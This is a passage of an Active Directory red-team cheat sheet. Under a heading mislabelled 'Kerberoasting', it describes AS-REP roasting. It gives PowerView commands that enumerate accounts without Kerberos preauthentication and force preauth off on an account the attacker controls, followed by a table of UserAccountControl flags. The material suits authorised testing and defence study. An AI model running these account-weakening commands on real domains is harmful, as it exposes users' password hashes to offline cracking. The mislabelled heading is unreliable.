 #### KERBEROASTING
Main objective: If a user's UserAccountControl settings have "Do not require Kerberos preauthentication" enabled i.e. Kerberos preauth is disabled, it is possible to grab user's crackable AS-REP and brute-force it offline

:information_source: With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled

- Find user accounts with Kerberos Preauth disabled (Using PowerView dev)
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
#
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
- Find user accounts and force Preauth to disabled, enumerate the permissions for RDPUsers on ACLs using PowerView (dev)
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
# 4194304 -> Value in decimal for DONT_REQ_PREAUTH
Set-DomainObject -Identity controleduser -XOR @{useraccountcontrol=4194304} -Verbose
Get-DomainUser -PreauthNotRequired -Verbose
#
Get-DomainUser -PreauthNotRequired -Identity controleduser
```

You can view and edit these attributes by using either the Ldp.exe tool or the Adsiedit.msc snap-in.

The following table lists possible flags that you can assign. You cannot set some of the values on a user or computer object because these values can be set or reset only by the directory service. Note that Ldp.exe shows the values in hexadecimal. Adsiedit.msc displays the values in decimal. The flags are cumulative. To disable a user's account, set the UserAccountControl attribute to 0x0202 (0x002 + 0x0200). In decimal, this is 514 (2 + 512).

Note You can directly edit Active Directory in both Ldp.exe and Adsiedit.msc. Only experienced administrators should use these tools to edit Active Directory. Both tools are available after you install the Support tools from your original Windows installation media. 
| Property flag 	| Value in hexadecimal 	| Value in decimal 	|
|---	|---	|---	|
| SCRIPT<br>The logon script will be run. 	| 0x0001 	| 1
| ACCOUNTDISABLE<br>The user account is disabled. 	| 0x0002 	| 2
| HOMEDIR_REQUIRED<br>The home folder is required. 	| 0x0008 	| 8
| LOCKOUT 	| 0x0010 	| 16
| PASSWD_NOTREQD<br>No password is required. 	| 0x0020 	| 32
| PASSWD_CANT_CHANGE<br>The user cannot change the password. This is a permission on the user's object. 	| 0x0040 	| 64
| ENCRYPTED_TEXT_PWD_ALLOWED<br>The user can send an encrypted password. 	| 0x0080 	| 128
| TEMP_DUPLICATE_ACCOUNT<br>This is an account for users whose primary account is in another domain. This account provides user access to this domain, but not to any domain that trusts this domain. This is sometimes referred to as a local user account. 	| 0x0100 	| 256
| NORMAL_ACCOUNT<br>This is a default account type that represents a typical user. 	| 0x0200 	| 512
| INTERDOMAIN_TRUST_ACCOUNT<br>This is a permit to trust an account for a system domain that trusts other domains. 	| 0x0800 	| 2048
| WORKSTATION_TRUST_ACCOUNT<br>This is a computer account for a computer that is running Microsoft Windows NT 4.0 Workstation, Microsoft Windows NT 4.0 Server, Microsoft Windows 2000 Professional, or Windows 2000 Server and is a member of this domain. 	| 0x1000 	| 4096
| SERVER_TRUST_ACCOUNT<br>This is a computer account for a domain controller that is a member of this domain. 	| 0x2000 	| 8192
| DONT_EXPIRE_PASSWORD<br>Represents the password, which should never expire on the account. 	| 0x10000 	| 65536
| MNS_LOGON_ACCOUNT<br>This is an MNS logon account. 	| 0x20000 	| 131072
| SMARTCARD_REQUIRED<br>When this flag is set, it forces the user to log on by using a smart card. 	| 0x40000 	| 262144
| TRUSTED_FOR_DELEGATION<br>When this flag is set, the service account (the user or computer account) under which a service runs is trusted for Kerberos delegation. Any such service can impersonate a client requesting the service. To enable a service for Kerberos delegation, you must set this flag on the userAccountControl property of the service account. 	| 0x80000 	| 524288